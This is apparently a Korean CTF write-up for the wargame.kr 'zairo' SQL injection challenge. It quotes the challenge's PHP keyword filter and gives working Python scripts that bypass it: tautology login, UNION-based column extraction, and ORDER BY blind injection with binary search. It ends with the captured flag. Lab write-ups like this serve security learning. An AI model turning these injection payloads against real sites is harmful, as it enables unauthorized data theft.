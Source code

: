 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-01-47-52.png)


# **Write-Up**

adm1nkyj 문제와 비슷한 문제이다.

![](images/2022-01-03-01-48-10.png)

다만, 괄호를 사용할 수 없게 되고, where, = 문자도 필터링 대상이다.

```php
if(preg_match("/information|schema|user|where|=/i", $id) || substr_count($id,"(") > 0) exit("no hack");
if(preg_match("/information|schema|user|where|=/i", $pw) || substr_count($pw,"(") > 0) exit("no hack");
```

이전에는 id를 구할 때 1=1을 하였지만, =가 필터링 대상이므로 True를 사용하여 구한다.

```python
import urllib
import urllib.request

# id
id          = urllib.parse.quote('\' or True#')
pw          = urllib.parse.quote('')
flag        = urllib.parse.quote('')
url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw='+pw+'&flag='+flag
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
real_id     = data[data.find('Hello ')+len('Hello '):data.find('<hr>')].strip()
```

pw_column은 이전과 같이 구한다.

```python
id          = urllib.parse.quote('\' union select 1,')
pw          = urllib.parse.quote(',3,4,5#')
flag        = urllib.parse.quote('')
url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw='+pw+'&flag='+flag
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
pw_column   = data[data.find('Hello  and ')+len('Hello  and '):data.find('=<hr>')].strip()
```

temp_pw는 그냥 union SQLi처럼 구한다.

```python
id          = urllib.parse.quote('\' union select 1,{},3,4,5 from findflag_2#'.format(pw_column))
pw          = urllib.parse.quote('')
flag        = urllib.parse.quote('')
url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw='+pw+'&flag='+flag
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
temp_pw     = data[data.find('Hello ')+len('Hello '):data.find('<hr>')].strip()
```

temp_flag는 괄호가 통하지 않아 서브 쿼리로 테이블을 만들고 할 수가 없다. 따라서 order by절로 어떠한 문자를 기준으로 BlindSQLi를 통해 temp_flag를 알아내고, 횟수가 정해져있으므로, Binary Tree 알고리즘을 사용하여 횟수를 줄인다.

```python
import string
tmp_flag        = ''
ascii_set       = string.digits+string.ascii_lowercase
query_id_column = 'zairowkdlfhdkel'

for i in range(len(ascii_set)):
    first_idx   = 0
    last_idx    = len(ascii_set) - 1
    while True:
        mid_idx     = (first_idx + last_idx) // 2
        id          = urllib.parse.quote('\' or true union select 1,2,3,\'{}\',5 order by 4 ASC#'.format(tmp_flag + ascii_set[mid_idx]))
        url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw=""&flag=""'
        headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
        request     = urllib.request.Request(url, headers = headers)
        response    = urllib.request.urlopen(request).read().decode()

        if 'reset' in response:
            print(response)
            i = 0
            break

        if query_id_column not in response: # real_tmp_flag보다 tmp_flag가 빠른 순번이면 뒤로 이동
            first_idx   = mid_idx + 1
            mid_idx     = (first_idx + last_idx) // 2
        elif query_id_column in response: # real_tmp_flag보다 tmp_flag가 늦은 순번이면 뒤로 이동
            last_idx    = mid_idx - 1
            mid_idx     = (first_idx + last_idx) // 2

        if first_idx > mid_idx:
            tmp_flag    += ascii_set[mid_idx]
            ascii_set   = ascii_set.replace(ascii_set[mid_idx], "")
            break
```

위의 행위는 모두 COUNT가 0일 때 하는 것을 추천한다. 이진 트리 탐색에서 COUNT를 많이 소모하여 temp_flag가 바뀐다.

어쨋든, 모든 데이터를 구하고 GET method로 보내면 FLAG를 획득할 수 있다.

```python
id          = urllib.parse.quote(real_id)
pw          = urllib.parse.quote(temp_pw)
flag        = urllib.parse.quote(tmp_flag)
url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw='+pw+'&flag='+flag
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
print(data)

[Output]
<hr />NOW COUNT = 149<br />good job!!<br />FLAG : <b>c2f8675e2829eeab23bac19c51c332a033e1d596</b><hr>
```


# **FLAG**

**c2f8675e2829eeab23bac19c51c332a033e1d596**